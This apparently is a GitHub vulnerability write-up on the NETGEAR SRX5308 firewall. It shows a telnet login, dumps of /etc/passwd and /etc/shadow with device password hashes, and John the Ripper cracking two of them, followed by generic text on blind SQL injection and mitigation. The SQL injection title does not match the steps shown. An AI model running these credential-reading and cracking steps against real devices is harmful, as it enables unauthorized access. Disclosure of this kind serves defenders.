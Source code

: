 # NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308 SQL Injection Vulnerability

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.jpg" class="shrinkToFit" width="700" height="284">

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.png" class="shrinkToFit" width="700" height="284">

* The NETGEAR ProSAFE SRX5308 Quad WAN Gigabit SSL VPN Firewall is perfect for even the most demanding business networks. The SRX5308 features a hardware-* accelerated data flow architecture that allows for 1 Gbps of stateful firewall throughput.

* telnet 192.168.1.2 520

* cat /etc/passwd

root:x:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:x:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:x:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* cat /etc/shadow

daemon:*:13189:0:99999:7:::
root:CxqJynrkPOtP.:12374:0:99999:7:::
admin:m1LVojhaR1U5Y:11582:0:99999:7:::
guest:K7Vjga.vILkVA:11582:0:99999:7:::

* root@kali:~$ unshadow /home/root/Desktop/passwd /home/root/Desktop/shadow > /home/root/Desktop/status

root:CxqJynrkPOtP.:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:m1LVojhaR1U5Y:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:K7Vjga.vILkVA:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* root@kali:~$ john /home/root/Desktop/status

* Loaded 2 password hashes with 2 different salts (descrypt, traditional crypt(3) [DES 128/128 SSE2])

* Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist

* password (showid)

* password (guest)

I can provide you with an overview of a boolean-based blind SQL injection vulnerability on the login page of the NETGEAR ProSafe™ Gigabit Quad WAN SSL VPN Firewall SRX5308.

SQL injection is a type of vulnerability that occurs when a malicious user is able to input untrusted data into an application's SQL query, allowing them to execute arbitrary SQL commands on the database. Boolean-based blind SQL injection is a type of SQL injection that allows an attacker to determine the truth of a statement by injecting specific inputs and observing the response.

In the case of the NETGEAR ProSafe™ Gigabit Quad WAN SSL VPN Firewall SRX5308, the vulnerability exists on the login page, where the device's authentication mechanism is vulnerable to a boolean-based blind SQL injection attack. An attacker could exploit this vulnerability by injecting malicious SQL code into the login form's fields, such as the username or password field, and observing the response from the device.

The attacker could use this vulnerability to extract sensitive information from the device's database, such as user credentials, and even gain complete control over the device. It could also allow an attacker to access the internal network behind the firewall and potentially compromise other devices on the network.

To prevent this vulnerability, it is important to keep the device updated with the latest security patches and to properly validate user input on the login page. It is also important to monitor the device's logs for any suspicious activity and to use a strong and unique password for the device's administrator account.

It's important to note that this vulnerability may have been already fixed by the manufacturer and if you are using this device, it's important to contact NETGEAR for a patch or a solution for this





